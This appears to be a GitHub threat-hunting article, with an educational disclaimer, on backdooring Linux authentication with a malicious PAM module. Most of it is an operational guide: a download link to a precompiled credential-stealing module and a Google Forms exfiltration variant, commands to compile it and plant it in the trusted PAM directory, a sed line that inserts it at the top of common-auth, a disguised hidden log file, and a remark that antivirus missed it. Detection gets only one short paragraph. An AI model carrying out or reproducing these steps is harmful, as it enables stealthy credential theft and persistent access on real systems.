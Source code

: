 #### Disclaimer

_This article is intended for educational and awareness purposes only. The techniques demonstrated are for understanding security risks and improving defenses. Unauthorized use or replication of these methods for malicious activities is strictly prohibited and may be illegal. Always obtain proper authorization before testing or simulating attacks on any systems. The author is not responsible for any misuse, damage, or illegal activities resulting from applying the techniques discussed._

### Background  
PAM modules are dynamically loaded components that handle authentication on Linux systems. Attackers can exploit this by installing malicious modules and modifying PAM’s configuration to load them during login. This allows the attacker to secretly capture user credentials whenever authentication occurs, making it a powerful vector for persistent access and data theft  

Note: This was tested on Debian-based systems. The provided steps are specifically tailored for Debian/Ubuntu environments. For Fedora or Red Hat systems, just update the library and configuration file paths—the module code remains the same.  
#### How the backdoor works?
The malicious code hooks into _pam_sm_authenticate()_, capturing the username via _pam_get_user()_ and the password via _pam_get_authtok()_ before silently logging or exfiltrating them. Meanwhile, _pam_sm_setcred()_ completes the authentication process to avoid detection.

I’ve uploaded code for two Linux PAM modules: one logs credentials to disk (already compiled), and the other exfiltrates to Google Forms (requires updating values before compiling). Download [here](https://github.com/le0li9ht/ThreatHunting/blob/main/Linux/PAM/StealingCredentials/pam_backdoor_lab.zip)  
##### Code files

```
pam_backdoor_lab.zip
│
├── pam_backdoor_disklog/
│   ├── pam_backdoor.c
|   ├── pam_backdoor.so
└── pam_backdoor_googleform/
    ├── pam_backdoor.c
```

For the first, just copy the compiled module to the shared library location.  I have not compiled the second module yet because it requires updating the Google Form URL(as shown in below image) and entry values in the source code. Once those are set, you can compile and deploy the module.    

![image](https://github.com/user-attachments/assets/e5021065-7e31-4744-804d-8bf18cf60bcf)  

At the time of writing, this module was not flagged as malicious by VirusTotal, highlighting how such techniques can easily evade standard detection mechanisms.  
![2025-06-08_01-42](https://github.com/user-attachments/assets/2a19e69b-50cc-4979-a96d-056d352f846b)  
https://www.virustotal.com/gui/file/c7022836a3f92a6589df7cce99ee3db69ce0a98a7c266ba90a8ec5e37227329e?nocache=1   

#### Step 1: Install Development Package for PAM Modules    
You need to install libpam0g-dev because it provides the header files and libraries required to compile custom PAM modules  
```
sudo apt update  
sudo apt install libpam0g-dev  
```  
#### Step 2: Compile the Backdoor PAM Module  
```
gcc -fPIC -fno-stack-protector -c pam_backdoor.c  
ld -x --shared -o pam_backdoor.so pam_backdoor.o
```
#### Step3: Deploy the Backdoor Module into PAM's Trusted Directory  
Copy the backdoor module to /lib/x86_64-linux-gnu/security/ because it’s the default trusted location for PAM modules, ensuring it’s automatically loaded by all PAM-aware services and stays hidden among legitimate system files for better stealth and persistence.   
```
sudo cp pam_backdoor.so /lib/x86_64-linux-gnu/security/
```      
Modify the _common-auth_ file under _/etc/pam.d_ , which handles authentication, by inserting the backdoor module at the top of the PAM authentication stack. This ensures it executes first during all authentication requests, allowing the backdoor to intercept credentials stealthily and persistently across system login processes.  
```
sed -i '1i auth required pam_backdoor.so' /etc/pam.d/common-auth
```   

#### Step4: Test the Backdoor Module 
Perform any authentication action like `sudo`, `su`, `su -`, or SSH logins. The backdoor will capture and log all credentials during these authentications.
```
sudo su
su -
ssh user@ip
```

- **If using the disk-logging module:**  
All captured credentials are saved to a hidden, seemingly legitimate file on disk named /tmp/.X11-unixs. To view the stolen creds, run:   
```
cat /tmp/.X11-unixs
```
![2025-06-08_01-34](https://github.com/user-attachments/assets/63e2bfb4-5833-44b1-bce3-e8afeb6fe1ce)


- **If using the Google Forms exfiltration module:**
Credentials are sent silently to your configured Google Form. Check your Google Form responses to verify captured data as shown.
![2025-06-08_00-54_1](https://github.com/user-attachments/assets/ae275802-ce96-4481-9354-c30fae9c7e56)   
![2025-06-08_00-54](https://github.com/user-attachments/assets/8d773b2c-7369-4e9e-af75-7961f9da1fef)
Exfiltrated credentials on google form.
  
#### Detection
Always monitor the directories where PAM modules are loaded—such as /etc/pam.d/ and /lib/security/  /lib/x86_64-linux-gnu/security/  —using File Integrity Monitoring (FIM) to detect unauthorized changes. 

##### MITRE. 
[T1556.003 - Pluggable Authentication Modules: Malicious PAM](https://attack.mitre.org/techniques/T1556/003/)  


